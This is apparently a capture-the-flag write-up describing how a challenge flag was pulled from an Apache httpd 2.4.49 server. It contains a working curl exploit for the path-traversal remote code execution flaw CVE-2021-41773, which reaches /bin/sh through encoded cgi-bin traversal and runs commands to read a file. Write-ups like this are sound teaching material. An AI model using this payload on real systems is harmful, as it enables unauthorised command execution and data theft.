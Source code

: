 ## 10 of clubs

> Solved by: Starry-Lord

```
port 12380
```

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


```
curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'
```

![](https://i.imgur.com/aYyIBok.png)